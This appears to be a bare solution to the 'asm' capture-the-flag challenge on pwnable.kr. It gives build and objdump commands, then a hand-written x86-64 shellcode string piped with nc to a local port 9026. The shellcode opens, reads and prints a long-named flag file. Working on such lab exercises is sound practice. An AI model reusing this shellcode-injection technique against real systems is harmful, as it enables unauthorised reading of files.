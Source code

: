 Toddler's Bottle asm
-------------

#### asm.s build command
as asm.s -o asm.o && ld asm.o -o asm && strace -i ./asm

#### Final code
for i in `objdump -d asm | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done

(python -c 'print "\x48\xbb\x6f\x30\x6f\x30\x6f\x6e\x67\x11\x48\xc1\xe3\x08\x48\xc1\xeb\x08\x53\x48\xbb\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x53\x48\xbb\x30\x30\x30\x30\x30\x30\x30\x30\x53\x48\xbb\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x30\x30\x30\x30\x30\x6f\x6f\x6f\x53\x48\xbb\x30\x30\x30\x30\x30\x30\x30\x30\x53\x48\xbb\x30\x30\x30\x30\x30\x30\x30\x30\x53\x48\xbb\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x53\x48\xbb\x73\x5f\x76\x65\x72\x79\x5f\x6c\x53\x48\xbb\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x53\x48\xbb\x5f\x74\x68\x65\x5f\x66\x69\x6c\x53\x48\xbb\x6c\x65\x2e\x73\x6f\x72\x72\x79\x53\x48\xbb\x5f\x74\x68\x69\x73\x5f\x66\x69\x53\x48\xbb\x61\x73\x65\x5f\x72\x65\x61\x64\x53\x48\xbb\x66\x69\x6c\x65\x5f\x70\x6c\x65\x53\x48\xbb\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x53\x48\xbb\x70\x77\x6e\x61\x62\x6c\x65\x2e\x53\x48\xbb\x74\x68\x69\x73\x5f\x69\x73\x5f\x53\x48\xc7\xc0\x02\x11\x11\x11\x48\xc1\xe0\x38\x48\xc1\xe8\x38\x48\x89\xe7\x48\x31\xf6\x0f\x05\x48\x89\xc3\x48\x31\xc0\x48\x89\xdf\x48\x89\xe6\x48\xc7\xc2\x43\x11\x11\x11\x48\xc1\xe2\x38\x48\xc1\xea\x38\x0f\x05\x48\xc7\xc0\x01\x11\x11\x11\x48\xc1\xe0\x38\x48\xc1\xe8\x38\x48\xc7\xc7\x01\x11\x11\x11\x48\xc1\xe7\x38\x48\xc1\xef\x38\x48\x89\xe6\x48\xc7\xc2\x43\x11\x11\x11\x48\xc1\xe2\x38\x48\xc1\xea\x38\x0f\x05"'; cat) | nc 0 9026
